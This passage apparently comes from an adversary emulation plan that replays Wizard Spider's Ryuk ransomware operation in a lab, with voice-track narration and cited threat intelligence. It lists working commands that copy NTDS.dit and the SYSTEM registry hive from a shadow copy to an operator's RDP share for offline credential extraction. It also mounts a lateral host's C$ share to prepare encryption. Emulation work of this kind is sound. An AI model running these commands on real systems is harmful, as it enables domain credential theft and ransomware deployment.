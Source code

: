 You will get output resembling the following:

```
vssadmin output:
    Shadow Copy ID: {cb0a1e0b-e4d7-44f4-aacb-daed56db01ce}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

:warning: Make sure the `\\\\?\GLOBALROOT...HarddiskVolumeShadowCopy1` path matches your output!

```bat
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit \\TSCLIENT\X\ntds.dit
```

```bat
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM \\TSCLIENT\X\VSC_SYSTEM_HIVE
```

```bat
reg SAVE HKLM\SYSTEM \\TSCLIENT\X\SYSTEM_HIVE
```

Notionally, Wizard Spider carves credentials offline from ntds.dit using tools like Impacket's secretsdump.py

### :microscope: Cited Intelligence

* <https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html>

<br>

## Test 5 (Step 9)

### Step 9 - Ryuk Inhibit System Recovery

:microphone: `Voice Track:`

In step 9, Wizard Spider prepares to deploy an executable based on the Ryuk ransomware.

At the beginning of this step, Wizard Spider mounts the C$ share of a lateral host, toto / 10.0.0.8.

Files on Toto will be encrypted in the next step.

Next, Wizard Spider uploads two files to disk: kill.bat and window.bat.

These files are used to stop specific services and delete backups prior to encrypting the system.

---

### ☣️ Procedures

In the CMD session, mount share so Ryuk can encrypt lateral drives:

```bat
net use Z: \\10.0.0.8\C$
```
